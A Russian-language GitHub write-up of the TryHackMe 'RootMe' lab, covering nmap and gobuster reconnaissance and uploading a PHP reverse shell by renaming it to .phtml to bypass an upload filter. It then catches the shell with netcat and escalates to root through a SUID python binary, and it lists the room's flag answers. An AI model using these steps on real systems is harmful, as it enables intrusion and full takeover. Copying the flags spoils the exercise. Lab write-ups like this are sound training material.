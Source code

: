 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [RootMe](https://tryhackme.com/r/room/rrootme) 

Всего 4 задания:
## Задание 1
Подключитесь к сети TryHackMe и разверните машину. Если вы не знаете, как это сделать, сначала пройдите комнату OpenVPN.
```commandline
penvpn /home/kali/Documents/THM-openvpn/andrej.marinchenko.ovpn
ip addr
```
- 10.9.1.51 - адрес моей машины с kali linux для атаки
- 10.10.108.56 - адрес целевой машины

### Ответить на вопросы ниже
Разверните машину
```commandline
Ответ не нужен
```

## Задание 2
Для начала давайте получим информацию о цели.
```commandline
nmap -sC -sV 10.10.108.56

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-10 04:39 EDT
Nmap scan report for 10.10.108.56
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.14 seconds
```
### Ответить на вопросы ниже
Просканируйте машину, сколько портов открыто?
```commandline
2
```
Какая версия Apache используется?

```commandline
2.4.29
```
Какая служба работает на порту 22?

```commandline
ssh
```
Найдите каталоги на веб-сервере с помощью инструмента GoBuster.
```commandline
gobuster dir -u 10.10.108.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.108.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.108.56/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.108.56/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.108.56/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.108.56/panel/]
Progress: 6091 / 220561 (2.76%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 6110 / 220561 (2.77%)
===============================================================
Finished
===============================================================
```
```commandline
Ответ не нужен
```
Что такое скрытый каталог?

```commandline
/panel/
```

## Задание 3
Найдите форму для загрузки и получения обратного шелла, а также найдите флаг.

на найденной странице http://10.10.108.56/panel/ мы можем загружать файлы, давайте попробуем загрузить наш 
реверс-шелл написанный на php, для этого создадим файл:
```commandline
nano reverse.php
```
и вставим в него содержимое реверс-шела на подобии такого https://github.com/pentestmonkey/php-reverse-shell только 
не забываем заменить значения IP-адреса и порта для прослушивания, которые мы запустим для подключения в моем случае 
это 
- $ip = '10.9.1.51';  // CHANGE THIS
- $port = 4444;       // CHANGE THIS

отлично, файл мы создали, теперь его нужно загрузить на целевую машину, для этого перейдем на страницу 
http://10.10.108.56/panel/ выберем загрузить файл в соответсвующем поле и выберем на php файл, сразу мы получим 
предупреждение, php-файлы загружать нельзя, не беда, обойдем эту проверку переименовав наш файл из php в phtml
```commandline
mv reverse.php reverse.phtml
```
и повторим попытку загрузки файла на странице http://10.10.108.56/panel/ на этот раз все получилось...
далее откроем на нашей машине порт для прослушивания и подключения с машины жертвы:
```commandline
nc -lvnp 4444
```
теперь нам осталось выполнить наш реверс-шел, запустить его на машине жертвы можно перейдя на другую страницу
http://10.10.108.56/uploads/
и выбрать название нашего реверс-шела, для его выполнения. После чего возвращаемся на нашу машину где прослушивался 
соответсвующий порт и убедится в том, что доступ к машине жертвы получен.

```commandline
id 
whoami
```
конечно мы не обладаем правами супер-пользователя, но даже этого будет достаточно что бы найти 1-й флаг
```commandline
find / -type f -name user.txt 2>/dev/null 
cat /var/www/user.txt
```

### Ответить на вопросы ниже
пользователь.txt

```commandline
THM{y0u_g0t_a_sh3ll}
```

## Задание 4
Теперь, когда у нас есть оболочка, давайте повысим наши привилегии до root.
Для этого найдем файлы которые можно выполнить с правами суперпользователя
```commandline
find / -type f -user root -perm -4000 2>/dev/null
or
find / -perm -u=s -type f 2>/dev/null
```
т.к. есть возможность запускать python, этим мы и воспользуемся:
```commandline
python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
id
whoami
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```
### Ответить на вопросы ниже
Найдите файлы с разрешением SUID. Какой файл странный?

```commandline
/usr/bin/python
```
Найдите форму для повышения своих привилегий.
```commandline
Ответ не нужен
```
корень.txt
```commandline
THM{pr1v1l3g3_3sc4l4t10n}
```

## Задание 5

```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)


